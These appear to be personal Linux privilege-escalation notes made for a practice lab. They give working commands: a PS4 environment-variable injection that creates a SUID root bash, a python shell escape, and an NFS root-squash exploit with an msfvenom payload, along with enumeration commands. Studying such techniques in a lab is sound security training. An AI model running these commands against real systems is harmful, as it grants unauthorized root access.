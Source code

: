 ###
```
sudo earlier than 1.8.26
Check *** pwfeedback

sudo -l

history

find .

cat /etc/os-release
uname -a


```
```
https://www.hackingarticles.in/linux-privilege-escalation-automated-script/
https://github.com/belane/linux-soft-exploit-suggester
```
```
pspy
https://github.com/DominicBreuker/pspy

```
### SUID / SGID Executables - Abusing Shell Features (#2)
Note: This will not work on Bash versions 4.4 and above.

When in debugging mode, Bash uses the environment variable PS4 to display an extra prompt for debugging statements.
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

Run the /tmp/rootbash executable with -p to gain a shell running with root privileges:

/tmp/rootbash -p

---------------------------------------------
python -c 'import os;os.execl("/bin/sh","sh","-p")'
------------------------------------------------
Files created via NFS inherit the remote user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.
Check the NFS share configuration on the Debian VM:

cat /etc/exports

Note that the /tmp share has root squashing disabled.
On your Kali box, switch to your root user if you are not already running as root:
sudo su

Using Kali's root user, create a mount point on your Kali box and mount the /tmp share (update the IP accordingly):

mkdir /tmp/nfs
mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs

Still using Kali's root user, generate a payload using msfvenom and save it to the mounted share (this payload simply calls /bin/bash):
msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf

Still using Kali's root user, make the file executable and set the SUID permission:
chmod +xs /tmp/nfs/shell.elf

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:
/tmp/shell.elf



SMB:
https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html
echo exit | smbclient -L \\\\[ip]
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.132.104
